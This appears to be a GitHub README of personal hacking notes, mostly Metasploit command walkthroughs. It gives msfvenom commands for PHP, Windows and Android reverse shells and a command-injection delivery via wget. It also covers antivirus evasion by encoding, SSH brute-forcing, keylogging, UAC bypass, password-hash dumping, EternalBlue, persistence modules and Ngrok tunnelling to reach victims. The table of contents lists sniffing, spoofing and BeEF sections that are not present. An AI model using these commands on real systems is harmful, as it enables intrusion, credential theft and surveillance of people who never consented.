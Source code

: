 # System Hacking

## Tables des matière
 - [MSFconsole environment](#MSFconsole-environment)
 - Metasploit framwork](#Metasploit-framwork)
 - [HTTP trafic sniffing](#HTTP-trafic-sniffing)
 - [DNS spoofing](#DNS-spoofing)
 - [HTTPS credentials sniffing](#HTTPS-credentials-sniffing)
 - [Hooking browsers with BEEF](#Hooking-browsers-with-BEEF)
 - [Some stuff you can do with mitmf](#Some-stuff-you-can-do-with-mitmf)
 - [Cloning any webpage](#Cloning-any-webpage)
 - [Ettercap](#Ettercap)

### MSFconsole environment

`service postgresql start` to run your metasploit framwork faster using sql databases.

Start Msfconsole --> `msfconsole`
	
You can run every linux commands in the msfconsole terminal
	
Search command to see available exploit --> for example `search windows`

Use command to go to this exploit  --> for example `use <exploit_path>`

Show command --> `show info`, `show options`, `show targets`, `show payload` 

In order to use some of the payload available for this exploit --> `set PAYLOAD <payload_path>`. You can see payload options --> `show options`. You can set the options for this payload --> `set <option_name> <value>` --> For example `set LHOST 192.168.1.246`
			   

### Metasploit framwork 

	In /usr/share/metasploit-framework/
		--> msfconsole --> run the msfconsole
		--> msfvenom   --> create payloads and backdoors
		--> msfupdate  --> update metasploit framework
		--> auxilary/  --> for scanning
		--> encoders/  --> for bypass antivirus, antiviruses have got a huge database of known exploits and viruses, if you run a program which is a known virus, the antivirus can alert an delete it. But if you change or scramble a litle bit the code, you can bypass them because the code is not in their database.
		--> post/      --> tools or programs you can use after infecting the target. You can download them with a reverse shell and do some informations gathering.
		--> nops/      --> command in assembly language and it's perform no operation.	
	Every exploits, payloads... are stored in /usr/share/metasploit-framework/modules
		In payloads directory :
			--> singles --> payload that perform only one action
			--> stagers --> use to deliver an another payload
			--> stages  -->	larger payload which allows you to make some meterpreter shell (reverse shell), NVC...	

Bruteforcing SSH with Metasploit :

	With nmap command, we find that the victim has his ssh port open. (22)
	Search an auxiliary module in msf "search ssh", for bruteforcing ssh login let's go to auxiliary/scanner/ssh/ssh_login module (before you can see the version of ssh with ssh_version module)
	Set your options you want (RHOSTS, THREAD, STOP_ON_SUCCESS, PASSWD_LIST, USERS_LIST...)
	And type the command "run" or "exploit"

Attacking Tomcat with Metasploit :
	 
	With nmap command, we find that the victim has his tomcat port open. (8080)
	We use auxiliary/scanner/http/tomcat_mgr_login module.

Getting Meterpreter with command injection : 

	Type "msfvenom -p php/meterpreter/reverse_tcp LHOST=<ip_of_the_listener(me)> LPORT=<ip_of_the_listening_port(For metasploit it's 4444)> -e <encrypting_algorithm> -f raw > <file_you_want_to write>
	Add the php beacons to the file.
	Move this file to your main apache2 server as the main page.
	Make the server download your file with a wget command.
	Start listening on the port you specify in the command before go to metasploit framework : 
		"msfconsole --> use exploit/multi/handler --> set payload <ayload_you_created_befored(php/meterpreter/reverse_tcp?> --> set LHOST <ip_listening_host> --> "exploit"
		To make the process running in background, type "exploit -j -z" --> to enter to a session type "sessions -i <process_id>
		To make your session in the background type "background"
	With the command injection vulnerability, run php -f <file_you_created> on the victim input. You see that you receive some packets on your terminal which runs the last command.

PHP code injection :

	To see if a web site is vulnerable to php code injection, use the system function with some basics linux commands in the input --> system('pwd')
	If it's work, you can perform a wget in order to download your reverse_shell and execute it on the victim server.

Metasploitable exploit : 

	The OWASP machine has its netbios-ssn (139 tcp) port open running on samba 3X - 4X : 
		Search on the msfconsole something linked with it --> search samba
		Show the payloads available for this exploit. We take the cmd/unix/reverse. Specify the required options for this payload (RHOST in this case).
		Run the exploit, on the OWASP it's doesn't work but on the metsploitable machine it's should work. 

Wine :

	Linux programs which allows you to run Winodws program on your Linux machine.
	Make python programs in Linux and make them runable in Linux.
	After the instalation of python 2.7.14 with wine (wine msiexec /i <file_python_2.7.14.msi>), wine created a virtual C:/ drive in each directory --> go to .wine/drive_c/
	If you want run a .exe in Linux, you must type wine before the program name.

Creating Windows payloads with Msfvenom : 

	Search a interesting payload --> search payload/windows --> you can use the x64 or x32, it depends of the victim machine --> remember the name of the payload you want, in this case payload/windows/x64/meterpreter/reverse_tcp  
	Create your payload --> "msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<listener_ip_adress(you?)> LPORT=4444 -f exe > reverse.exe


Encoders and hexeditor :

	VirusTotal : web site that allows us to upload a file and it will print out a list of how antiviruses detect this file as a virus. (be careful, this site sends each file to antiviruses databases) 
	In order to make your payloads less detectable by AV, you need to encode your payload.
	Search what encoders are available with your payload and add the parameter "-e" to your command.
	You can iterate a number of time your payload. Add "-i" parameter.
	With Hexeditor, you can change bytes when you have comments, phrases in the payload code.

Interesting commands on windows :

	getsystem --> privileges escalation for old versions of windows
	keyscan_start --> record all of the char when the victim is typing something. 
	keyscan_dump --> view all of the information that keylogger have after making him started. 
	keyscan_stop --> stop the keylogger

Windows 10 privilege escalation :

	Make your process in the background and type "search bypassuac". (The bypassuac_fodhelper is the stronger from now on)
	Use the exploit you want, and set the session id of your meterpreter and "exploit" (sometimes it's created the session sometimes not, try until you get a sesion open)
	In order to get the privilege type "getsystem"
	
Post exploiting module :

	When you have the local system account :
		--> use sniffer (some options will work and some not for this module) (sniff the networks of interfaces)
			alternativ --> run packetrecorder 
		--> use post/windows/gather/arp_scanner --> ARP scan
		--> run post/windows/gather/checkvm --> check if the program is running on a vm or a pm.
		--> run post/windows/gather/hasdump --> get the password hash of each user
			alternativ --> run post/windows/gather/credentials/crediental_collector
		--> run post/windows/gather/enum_application --> enum all of the installed application with versions
		--> run post/windows/gather/enum_logged_on_users

Eternalblue exploit :

	"git clone https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit.git"
	copy debs/ and *.rb in the directory /usr/share/metasploit-framework/modules/exploits/windows/smb
	Start msf console and use the exploit, as root. Change some options if it's required (PROCESSINJECT lsass.exe for x64).
	"Set payload windows/x64/meterpreter/reverse_tcp" --> set LHOST <listener_ip(you?) --> exploit
	The eternalblue exploit allows us to hack the target without any action of this one.

Persistence module :

	"run persistence -U" --> start the program when user log on.	
	"run persistence -X" --> start the program when he system boots.
	"run persistence (-U) -i <seconds>" --> interval of connecting tries
	"run persistence (-X -i <seconds>) -p <port(443?)> -r <remote_ip(your_ip_adress?)>"

Ngrok :

	Download Ngrok on their website and create an account to have the token.
	A port forwarding alternativ when you don't have access to the router (open wifi for example).
	The Ngrok web site allows you to have an open port on thier website and redirect the trafic to you when someone connects to this open port.
	If you want to redirect the trafic to a specific port with tcp --> ./ngrok tcp <port>
	When you create payload, make sure that you LHOST is the ip adress ngrok gives to you as same as the port number for LPORT.
	In msfconsole, on your multi/handler, make sure that the LHOST of the payload is 0.0.0.0 and the LPORT is the same when you have ran the command "./ngrok..."

Android device attack :

	msfvenom -p android/meterpreter/reverse_tcp LHOST=<listener_ip(you?)> LPORT=<listener_port(4444?)> R > <path_to_the_file>.apk
	Go to multi/handler on msfconsole, set the same payload and the corret options.

